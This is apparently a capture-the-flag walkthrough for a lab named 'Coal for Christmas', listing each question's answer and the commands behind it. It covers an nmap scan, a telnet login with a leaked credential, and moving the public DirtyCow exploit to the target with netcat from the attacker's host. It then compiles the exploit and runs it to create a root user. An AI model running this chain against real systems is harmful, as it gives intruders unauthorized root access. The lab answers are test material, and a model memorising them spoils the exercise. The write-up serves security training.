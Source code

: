 # Coal for Christmas

- Hi Santa, hop in your sleigh and deploy this machine!

	no answer needed

- nmap <TARGET_IP>

	no answer needed

	- `nmap <TARGET_IP>`

- What old, deprecated protocol and service is running?

	- `telnet`

- What credential was left for you?

	- `telnet <TARGET_IP> 23`
	- `clauschristmas`

- What distribution of Linux and version number is this server running?

	- `uname -a`
	- `Ubuntu 12.04`

- Who got here first?

	- `cat cookies_and_milk.txt`
	- `grinch`

- This cookies_and_milk.txt file looks like a modified rendition of a DirtyCow exploit, usually written in C. Find a copy of that original file online, and get it on the target box. You can do this with some simple file transfer methods like netcat, or spinning up a quick Python HTTP server... or you can simply copy-and-paste it into a text editor on the box!

	no answer needed

	- [dirtycow](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)
	- On your machine `nc -lnvp 4444 < dirty.c`
	- On target `nc -w 3 <YOUR_IP> 4444 > dirty.c`
	
- What is the verbatim syntax you can use to compile, taken from the real C source code comments?

	- `gcc -pthread dirty.c -o dirty -lcrypt`

- Run the commands to compile the exploit, and run it.
What "new" username was created, with the default operations of the real C source code?

	- `./dirty` and then enter the password you've chosen
	- `firefart`

- What is the MD5 hash output?

	- `cat message_from_the_grinch.txt`
	- `touch coal`
	- `tree | md5sum`
	- `8b1**00dd******adb02**********cc`




### see you ...

